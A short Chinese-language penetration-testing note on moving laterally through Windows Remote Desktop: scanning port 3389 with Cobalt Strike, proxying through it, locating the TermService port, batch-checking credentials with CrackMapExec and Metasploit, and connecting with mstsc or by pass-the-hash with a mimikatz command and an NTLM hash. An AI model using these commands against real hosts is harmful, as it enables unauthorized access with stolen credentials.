 远程桌面服务 支持明文账号密码及 HASH 连接。
3389开放，且CS获取了明文密码。

直接CS做socks代理转发，在本地远程登录。

>Windows默认同时只能登录一个账号,另一个下线。
Windows Server版，支持远程桌面多用户登陆。远程登录成功时，已有登录的主机上会有提示信息，且可显示多个用户在线（任务管理器-用户）。linux支持远程多用户登录。

^
1.探针服务：
cs 内置端口扫描 3389
tasklist /svc | find "TermService" # 找到对应服务进程的 PID
netstat -ano | find "PID 值" # 找到进程对应的端口号



2.探针连接：
CrackMapExec\&MSF 批扫用户名密码验证


3.连接执行：
明文连接：
mstsc远程连接程序
```
mstsc /console /v:192.168.3.32 /admin
```

HASH 连接：
使用RDP的hash值连接桌面，可能比较麻烦，这里提前条件太多了，需要开启Restricted Admin Mode，在Windows8.1和Windows server 2012 r2上是默认开启的。
```
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.20.1 /ntlm:579da618cfbfa85247acf1f800a280a4 "/run:mstsc.exe /restrictedadmin"
```



